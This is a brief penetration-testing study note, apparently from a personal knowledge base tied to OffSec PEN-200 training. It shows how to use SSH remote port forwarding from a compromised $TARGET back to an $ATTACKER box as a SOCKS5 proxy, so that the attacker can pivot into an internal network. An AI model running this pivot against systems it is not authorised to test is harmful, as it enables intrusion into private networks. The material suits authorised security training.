 # Use SSH as a Proxy

* **author**:: Nathan Acks
* **date**:: 2022-08-31

You can use SSH as a SOCKS5 proxy (with a tool like proxychains) using remote port forwarding.

You need to already have access to a $TARGET machine. SSH from the $TARGET back to the $ATTACKER box:

```bash
ssh -R $PORT $USER@$ATTACKER
```

This will open up $PORT on $ATTACKER, which can then be used as a SOCKS5 proxy by applications on $ATTACKER. Useful for gaining access to machines on an internal network that may be visible to $TARGET but not $ATTACKER.

* [2022-08-31 — OffSec Live: PEN-200](../log/2022-08-31-offsec-live-pen-200.md)
